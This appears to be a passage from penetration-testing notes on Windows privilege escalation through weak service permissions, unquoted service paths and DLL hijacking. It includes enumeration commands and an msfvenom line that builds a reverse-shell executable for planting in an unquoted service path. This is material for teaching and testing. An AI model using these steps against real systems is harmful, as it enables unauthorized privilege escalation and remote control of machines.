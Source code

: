 Note to check file permissions you can use `cacls` and `icacls`

You are looking for `BUILTIN\Users:(F)`(Full access), `BUILTIN\Users:(M)`(Modify access) or  `BUILTIN\Users:(W)`(Write-only access) in the output.

Or you can use the PowerSploit’s `Get-ModifiableServiceFile` method to directly detect all vulnerables services.


### Configuration files
Services sometimes load configuration files. Depending on the program, it might be possible that such a configuration file can be used to execute an arbitrary file. If write permissions for such a configuration file exists, privileges can be escalated.

### Unquoted Path
All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.

<https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae>

For `C:\Program Files\something\legit.exe`, Windows will try the following paths first:
- `C:\Program.exe`
- `C:\Program Files.exe`

#### Detection:
```powershell
sc.exe qc <service>
```
if no quotes in "BINARY_PATH_NAME" -> vulnerable

Auto search:
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

or

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

#### Exploit:
```
msfvenom -p windows/shell/reverse_tcp LHOST=YourIP LPORT=YourPort -f exe > shell-cmd.exe
```


## DLL Hijacking
* Can you write in any folder inside PATH?
* Is there any known service binary that tries to load any non-existant DLL?
* Can you write in some binaries folder?

<https://pentestlab.blog/2017/03/27/dll-hijacking/>
